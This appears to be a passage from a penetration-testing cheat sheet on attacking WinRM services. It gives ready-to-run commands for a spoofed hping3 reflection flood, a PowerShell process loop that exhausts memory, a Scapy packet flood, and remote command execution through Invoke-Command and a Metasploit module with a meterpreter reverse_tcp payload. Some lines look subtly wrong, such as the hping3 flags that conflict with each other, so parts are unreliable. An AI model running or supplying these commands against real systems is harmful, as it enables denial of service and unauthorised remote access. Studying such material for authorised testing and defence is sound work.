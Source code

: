 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 5985 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Memory Exhaustion via WinRM

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {while ($true) {1..10000 | % {Start-Process "notepad"}}}
    ```
* **Description:** Exhausts system memory by repeatedly launching processes via WinRM, leading to a denial of service.

#### Service Crashing

*   **Tool:** \[\[Scapy]]

    ```bash
    from scapy.all import *
    packet = IP(dst="<target_ip>")/TCP(dport=5985,flags="S")/("A"*65000)
    send(packet, loop=1)
    ```
* **Description:** Send malformed or oversized packets to the WinRM service, potentially causing it to crash.

### Exploits

#### WinRM Script Execution Vulnerability

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Start-Process cmd -ArgumentList '/c whoami'}
    ```
* **Description:** Exploits misconfigurations in WinRM to execute arbitrary scripts and commands with elevated privileges.

#### Exploiting WinRM for Remote Code Execution

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/winrm/winrm_rce
    set RHOST <target_ip>
    set PAYLOAD windows/meterpreter/reverse_tcp
    run
    ```
* **Description:** Exploit known vulnerabilities in the WinRM service to achieve remote code execution on the target system.
